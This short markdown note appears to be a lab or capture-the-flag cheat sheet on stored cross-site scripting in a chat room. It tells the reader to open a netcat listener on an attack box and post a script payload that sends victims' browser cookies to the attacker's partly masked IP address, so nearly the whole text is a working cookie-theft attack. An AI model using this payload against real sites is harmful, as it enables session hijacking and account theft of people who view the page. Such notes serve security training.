 # XSS 
## Stored XX
### Chat Room XSS
- Start a netcat listener on your attack box
````
nc -nlvp 4444
````
- Take this XSS payload and paste it in the chat room and submit:
````
<script>window.location='http://10.13.**.**:4444/?cookie='+document.cookie</script>
````
- Note: Send the payload and then open the listener 
